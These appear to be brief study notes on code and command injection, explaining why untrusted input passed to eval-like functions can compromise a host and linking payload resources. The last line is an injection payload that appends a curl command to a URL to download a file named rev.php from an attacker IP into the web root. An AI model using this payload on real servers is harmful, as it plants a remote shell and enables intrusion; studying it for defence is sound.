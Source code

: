 It is a very serious vulnerability because when we find it, we can compromise the entire application hence the host. The way we come about it is that the application takes input from the user then passing that into a function that executes it as code.

Basically dont use functions like eval() in the console section of your browser.

Whenever we're writing programs we need to make sure that we do not trust the input coming from the user or any other system for that matter.

VVIMP Resource: https://appsecexplained.gitbook.io/appsecexplained

VVIMP Resource: https://github.com/swisskyrepo/PayloadsAllTheThings

Out-of-Band Command Injection: use webhooks

```
https://tcm-sec.com && curl <IP_Address>:<port>/rev.php > /var/www/html/rev.php
```

